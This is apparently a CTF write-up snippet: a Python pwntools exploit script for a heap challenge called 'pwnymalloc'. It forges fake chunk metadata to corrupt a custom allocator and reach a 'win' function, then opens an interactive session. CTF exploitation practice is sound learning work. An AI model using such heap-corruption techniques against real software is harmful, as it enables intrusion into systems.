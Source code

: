 ```python
gdbscript = '''
init-pwndbg
# break *coalesce
# break *free_list_remove+91
break *pwnymalloc
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
# └──╼ [★]$ pwn checksec chal
#     Arch:     amd64-64-little
#     RELRO:    Full RELRO
#     Stack:    Canary found
#     NX:       NX enabled
#     PIE:      PIE enabled

def idk(data):
    log.info('IDK-ing...')
    io.sendlineafter(b'>', b'1')
    io.sendafter(b'complaint:', data.ljust(0x48-1, b'\x00'))
    sleep(0.2)

def pwnymalloc(amount, data):
    sleep(0.2)
    log.info('Pwnymallocing...')
    io.sendlineafter(b'>', b'3')
    io.sendlineafter(b'refunded:', str(amount).encode())
    io.sendafter(b'request:', data.ljust(0x7f, b'\x00'))
    sleep(0.2)

    io.recvuntil(b'Your request ID is: ')
    return int(io.recvline().strip())

def win(idx):
    io.sendlineafter(b'>', b'4')
    io.sendlineafter(b'ID:', str(idx).encode())

def exploit():
    global io
    io = initialize()

    fake_chunk = b'\x00' * 0x40 + b'\xd0'
    pwnymalloc(0x1, fake_chunk)

    fake_prev = b'\x00' * 0x78 + b'\xd0'
    win_idx = pwnymalloc(0x2, fake_prev) 

    idk(b'doesnt matter')

    pwnymalloc(0x4, p32(0x1) * (2 * 10))
 
    win(win_idx)

    io.interactive()
    
if __name__ == '__main__':
    exploit()
```
{% endcode %}
